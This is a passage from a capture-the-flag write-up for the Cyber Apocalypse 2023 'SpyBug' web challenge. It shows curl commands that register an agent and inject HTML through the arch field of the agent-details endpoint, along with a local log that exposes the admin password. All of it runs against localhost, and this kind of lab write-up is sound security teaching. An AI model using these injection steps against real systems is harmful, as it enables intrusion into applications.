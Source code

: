 Hmm... What can we do with that...

**After some local testing, I found that we can inject HTML code in the `/panel` via updating agent's details.**

**First, register a new agent:**
```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Web/SpyBug/web_spybug/challenge/control-panel)-[2023.03.22|14:19:29(HKT)]
└> curl http://localhost:1337/agents/register 
{"identifier":"7983500a-13af-4cab-a99c-7f93496fcf29","token":"23ccc082-9355-406c-a083-2746a9a583f9"}
```

**Then, use those `identifier` and `token` to update the `hostname`, `platform` and `arch` in `/agents/details/:identifier/:token`:**
```shell
┌[siunam♥earth]-(~/ctf/Cyber-Apocalypse-2023/Web/SpyBug/web_spybug/challenge/control-panel)-[2023.03.22|14:40:45(HKT)]
└> curl http://localhost:1337/agents/details/7983500a-13af-4cab-a99c-7f93496fcf29/23ccc082-9355-406c-a083-2746a9a583f9 --data "hostname=host&platform=plat&arch=<h1>Header1</h1>" 
OK
```

**After that, I added `console.log()` in `/utils/adminbot.js`, so that I can see the admin's password:**
```shell
[...]
DNUIK9jqISWeLSzh93IKaSFbishkYUYn
2023-03-22 06:43:27,763 INFO reaped unknown pid 964 (terminated by SIGKILL)
2023-03-22 06:43:27,763 INFO reaped unknown pid 947 (terminated by SIGKILL)
2023-03-22 06:43:27,763 INFO reaped unknown pid 948 (terminated by SIGKILL)
2023-03-22 06:43:27,763 INFO reaped unknown pid 926 (terminated by SIGKILL)
2023-03-22 06:43:27,764 INFO reaped unknown pid 927 (terminated by SIGKILL)
[...]
```

**`/panel`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Cyber-Apocalypse-2023/images/Pasted%20image%2020230322144443.png)
